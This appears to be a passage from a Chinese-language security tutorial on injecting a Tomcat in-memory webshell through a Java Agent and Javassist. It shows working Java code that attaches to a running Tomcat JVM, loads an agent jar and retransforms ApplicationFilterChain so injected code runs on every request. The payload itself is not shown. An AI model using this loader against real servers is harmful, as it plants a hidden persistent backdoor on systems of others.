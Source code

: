 ```java
            Thread.sleep(1000);
        }
    }
}

```

可以看到修改了我们原来的程序

![image-20231114112348329](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231114112348329.png)

## 利用Java Agent注入内存马

根据 Java Agent 的实现原理我们很容易就能把它应用到内存马这个方面

实现的思路就是找一个比较通用的类, 保证每一次 request 请求都能调用到它的某一个方法, 然后利用 Javaassist 插入恶意 Java 代码

这里先以网上讨论比较多的 `org.apache.catalina.core.ApplicationFilterChain#doFilter` 为例

```java
package com.example;

import com.sun.tools.attach.VirtualMachine;
import com.sun.tools.attach.VirtualMachineDescriptor;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;

import java.io.File;
import java.lang.instrument.ClassFileTransformer;
import java.lang.instrument.IllegalClassFormatException;
import java.lang.instrument.Instrumentation;
import java.security.ProtectionDomain;
import java.util.List;

public class TomcatAgent {
    public static final String CLASSNAME = "org.apache.catalina.core.ApplicationFilterChain";
    public static void agentmain(String args, Instrumentation inst) throws Exception{
        inst.addTransformer(new TomcatTransformer(), true);
    for (Class clazz : inst.getAllLoadedClasses()){
        if (clazz.getName().equals(CLASSNAME)) {
            inst.retransformClasses(clazz);
        }
    }
    }

    public static void main(String[] args) throws Exception{
        List<VirtualMachineDescriptor> list = VirtualMachine.list();
        for (VirtualMachineDescriptor desc : list){
            String name = desc.displayName();
            String pid = desc.id();

            if (name.contains("org.apache.catalina.startup.Bootstrap")){
//            if (name.contains("com.example.springbootdemo.SpringBootDemoApplication")){
                VirtualMachine vm = VirtualMachine.attach(pid);
                String path = new File("JavaAgentDemo.jar").getAbsolutePath();
                vm.loadAgent(path);
                vm.detach();
                System.out.println("attach ok");
                break;
            }
        }
    }
}
```